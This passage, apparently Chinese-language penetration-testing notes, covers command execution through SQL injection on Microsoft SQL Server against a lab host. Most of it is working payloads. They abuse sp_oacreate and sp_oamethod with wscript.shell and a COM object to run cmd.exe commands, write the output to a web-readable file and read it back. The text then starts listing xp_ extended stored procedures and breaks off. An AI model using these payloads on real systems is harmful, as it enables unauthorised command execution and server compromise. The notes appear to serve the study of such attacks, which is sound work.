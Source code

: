 ### sp_oacreate/sp_oamethod+重定向

http://192.168.100.226/less-1.asp?id=1;declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > 1.txt'

​![image](assets/image-20240906162636-ebvidoi.png)​

http://192.168.100.226/1.txt

​![image](assets/image-20240906162557-gdqri6a.png)​

### sp_oacreate/sp_oamethod调com组件命令执行

declare @luan int,@exec int,@text int,@str varchar(8000);exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;exec sp_oamethod @luan,'exec',@exec output,'C:\windows\system32\cmd.exe /c whoami';exec sp_oamethod @exec, 'StdOut', @text out;exec sp_oamethod @text, 'readall', @str out;select @str;       //有因命令太长执行不成功的可能

## 扩展存储过程

扩展存储过程以xp开头，主要使用外部程序语言编写的存储过程。  
如：

1. xp_subdirs

    ​![image](assets/image-20240906230746-6e4rcck.png)​
2. xp_fileexist

    ​![image](assets/image-20240906231545-o0a9bzu.png)​
3. xp_dirtree
